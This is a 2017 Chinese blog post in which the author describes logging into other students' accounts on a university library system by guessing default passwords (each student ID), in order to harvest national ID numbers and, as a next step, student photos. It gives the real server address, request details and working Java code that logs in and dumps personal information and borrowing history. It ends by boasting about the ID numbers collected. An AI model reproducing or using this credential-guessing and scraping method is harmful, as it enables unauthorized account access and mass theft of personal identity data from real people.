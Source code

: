 ```yaml
---
title: 学校图书馆登陆模拟
date: 2017-06-13 00:00:00 Z
categories:
- Java
layout: mypost
---
```


最近学校宽带总是断网，没办法只能访问学校的内网，很是无聊

打发时间，打算把全校所有学生照片爬取下来

基本思路就是从图书借阅系统入手，登陆名为学号，初始密码是学号，一般很少有人改动，登陆成功后从个人信息那里可以获取到身份证号。根据学号生成的规律把大一到大四的所有学号生成出来，然后模拟登陆，大量身份证号get

其次是教务管理系统，登录名为学号，登陆密码是身份证号，也是很少有人改动，模拟登陆，然后在个人信息那里有一张个人照片，解析到照片地址，下载haha

## 登陆原理

1. 浏览器第一次访问登陆时，没有携带sessionid，然后服务器会生成一个sessionid，并在cookie里面返回sessionid，带给浏览器，之后我们的任何访问都会带上这个sessionid

2. 登录时，我们的name和password和Cookie(里面记录了sessionid)都是提交给服务器，如果密码正确，服务器会把用户和sessionid关联，应该是`getSession.setAttribute("name",name)`之类的操作

3. 访问后台的一些页面时，sessionid会跟随Cookie携带过去，原理应该是`getSession.getAttribute("name")`之类的操作，如果不空，根据获得的name进行操作，如果为空则302到登陆界面

4. 注销操作，应该是类似`getSession.removeAttribute("name")`的操作

## 请求分析

使用F12开发工具对登陆的请求分析

General

```
Request URL:http://210.45.147.188:8080/reader/redr_verify.php
Request Method:POST
Status Code:302 Found
Remote Address:210.45.147.188:8080
```

Request

```
POST /reader/redr_verify.php HTTP/1.1
Host: 210.45.147.188:8080
Origin: http://210.45.147.188:8080
Content-Type: application/x-www-form-urlencoded
Referer: http://210.45.147.188:8080/reader/redr_verify.php
Cookie: PHPSESSID=hknd8ummdi8tbe5dve7osrm6e4
```

Form Data

```
number=xxx&passwd=xxx&select=cert_no&returnUrl=
```

Response

```
Content-Type:text/html
Location:redr_info.php
Server:Apache/2.2.22 (Win32) PHP/5.2.17
X-Powered-By:PHP/5.2.17
```

## 图书馆登陆代码

```java
public class Main {
	public static void main(String[] args) throws IOException {

		String number= "***";
		String passwd = "****";
		
		//第一次让服务器建立一个sessionid，获取到这个id
		URL httpUrl =  new URL("http://210.45.147.188:8080/reader/login.php");
		HttpURLConnection conn = (HttpURLConnection) httpUrl.openConnection();
		String sessionIdStr = conn.getHeaderField("Set-Cookie").substring(0,36);
		conn.disconnect();
		
		//第二次访问登陆验证，带上sessionid，发现get可以直接登陆
		//密码正确的话是一个302跳转
		httpUrl =  new URL("http://210.45.147.188:8080/reader/redr_verify.php?number="+number+"&passwd="+passwd+"&select=cert_no&returnUrl=");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		//为了获取302返回的Location,所以禁止自动跳转到302之后的地址
		conn.setInstanceFollowRedirects(false);
		String location = conn.getHeaderField("Location");

		boolean goNext = false;
		if ("redr_con.php".equals(location)) {
			System.out.println("您尚未完成身份认证，请进行身份核实, 如果认证失败，您将不能使用我的图书馆功能");
		}else if(location==null){
			System.out.println("对不起，密码错误，请查实！");
		}else{//redr_info.php
			System.out.println("成功登入系统....");
			goNext = true;
		}
		conn.disconnect();
		
		if (!goNext) {
			return;
		}

		//进入用户信息首页
		//登陆成功时，服务器会把账号和sessionid，后面的操作都不需要用户名和密码了
		httpUrl =  new URL("http://210.45.147.188:8080/reader/redr_info.php");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		
		//输出学生信息
		showUserInfo(changeStreamToString(conn.getInputStream(),"utf-8"));
        
		//输出所有历史借阅信息
		httpUrl =  new URL("http://210.45.147.188:8080/reader/book_hist.php?para_string=all");
		conn = (HttpURLConnection) httpUrl.openConnection();
		conn.addRequestProperty("Cookie", sessionIdStr);
		showBorrowInfo(changeStreamToString(conn.getInputStream(),"utf-8"));
	}
	
	//显示个人信息
	public static void showUserInfo(String htmlStr){
		//使用Jsoup解析Html文档
		Document document = Jsoup.parse(htmlStr);
		Elements tds = document.getElementById("mylib_info").getElementsByTag("td");
		Elements spans = document.getElementById("mylib_info").getElementsByTag("span");
		for(int i=1;i<tds.size();i++){
			System.out.println(spans.get(i).ownText()+tds.get(i).ownText());
		}
	}
	
	//显示所有借阅历史
	public static void showBorrowInfo(String htmlStr){
		
		Document document = Jsoup.parse(htmlStr);
		Elements trs = document.getElementById("mylib_content").getElementsByTag("tr");
		
		for(Element tr:trs){
			for(Element td:tr.getElementsByTag("td")){
				if (td.getElementsByTag("a").size()!=0) {
					System.out.print(td.getElementsByTag("a").get(0).ownText()+"\t");
				}else{
					System.out.print(td.ownText()+"\t");
				}
			}
			System.out.println();
		}
	}
	
	public static String changeStreamToString(InputStream inputStream,String edcode) throws IOException{
		BufferedReader in = new BufferedReader(new InputStreamReader(inputStream,edcode));
		String line;
		StringBuffer result = new StringBuffer();
		while ((line = in.readLine()) != null)
        		result.append(line);
		return result.toString();
	}
}
```

### 效果

![p01](01.jpg)

![p02](02.jpg)

## 教务系统登陆

原理同上，和图书馆登陆一样，也是基于session认证

MD 搬到新校区后，第一次登陆教务系统要改密码，全都改了，还不能是纯数字，没办法进行下去了...

就到这里了，反正弄到一大堆身份证号o(≧v≦)o~~好棒